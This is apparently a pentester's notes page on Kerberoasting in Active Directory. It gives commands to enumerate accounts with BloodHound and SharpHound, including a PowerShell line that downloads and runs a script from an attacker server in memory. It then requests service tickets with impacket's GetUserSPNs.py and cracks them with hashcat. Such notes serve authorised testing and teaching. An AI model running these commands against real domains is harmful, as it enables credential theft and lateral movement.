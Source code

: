 # <h1 align="center" id="heading">Kerberoasting</h1>
The easiest way to enumerate Kerberoastable users is through BloodHound. I can collect BloodHound graphing information for the target domain in a few ways. The easiest and most accurate way is through SharpHound collection. I prefer to run the collection in memory with the following command:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All
```
If I have valid domain credentials, I can use the Python collector BloodHound.py. This can be run from any platform that has Python support so I do not need to rely solely on Windows. This comes in handy when I find myself on a Domain-joined linux system. I can use the following command to execute the BloodHound graphing information collection:
```console
bloodhound-python -u <username> -p '<password>' -ns <target ip> -d <domain name> -c all
```
This may or may not work depending on the target system! Once I identify Kerberoastable users, I can perform the attack with the following command:
```console
~/tools/impacket/examples/GetUserSPNs.py -dc-ip <domain controller> <domain>/<user>:<password> -request
```
After obtaining a hash, I can attempt to crack the password with the following command (run from Windows host):
```console
hashcat.exe -m 13100 -a 0 hashes.txt rockyou.txt -O
```
Depending on whether or not the user has a weak password, I may or may not be able to crack the ticket. If not, this is most likely not the way forward for lateral movement!

